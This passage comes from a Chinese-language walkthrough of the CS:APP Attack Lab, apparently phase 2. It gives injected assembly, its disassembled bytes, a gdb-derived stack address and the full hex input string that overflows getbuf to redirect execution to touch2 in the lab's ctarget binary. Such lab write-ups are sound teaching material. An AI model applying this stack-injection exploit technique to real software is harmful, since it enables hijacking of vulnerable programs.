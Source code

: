 {%spoiler 示例代码%}
```assembly
mov $0x59b997fa, %rdi	;cookie存入rdi
push $0x4017ec			;touch2指令的地址入栈, 通过ret跳转到touch2
ret						;跳转到touch2
```
{%endspoiler%}

编译这段代码，然后反汇编得到对应的十六进制表示：

{%spoiler 示例代码%}
```shell
[root@machine target1]# gcc attack.s -c
[root@machine target1]# objdump -d attack.o

attack.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	pushq  $0x4017ec
   c:	c3                   	retq
```
{%endspoiler%}

另外还需要得到注入代码的内存地址（即getbuf中的栈顶地址），以确定返回地址。

使用gdb进行调试，首先看一下反汇编得到的指令地址，要得到getbuf中的栈顶地址，我们可以在mov %rsp, %rdi指令处打断点，对应的指令地址为0x4017ac:

![image-20220808213607260](https://raw.githubusercontent.com/Abug0/Typora-Pics/master/pics/Typora20220808213607.png)

![image-20220808213859401](https://raw.githubusercontent.com/Abug0/Typora-Pics/master/pics/Typora20220808213859.png)

可以看到栈顶地址为0x5561dc78，结合前面注入代码的是十六进制表示，最终可以得到整个输入字符串的十六进制表示：

{%spoiler 示例代码%}
```shell
48 c7 c7 fa 97 b9 59 68 
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```
{%endspoiler%}

执行：

{%spoiler 示例代码%}
```shell
hex2raw <attack2.txt >attack2raw.txt
ctarget -q -i attack2raw.txt
```
{%endspoiler%}
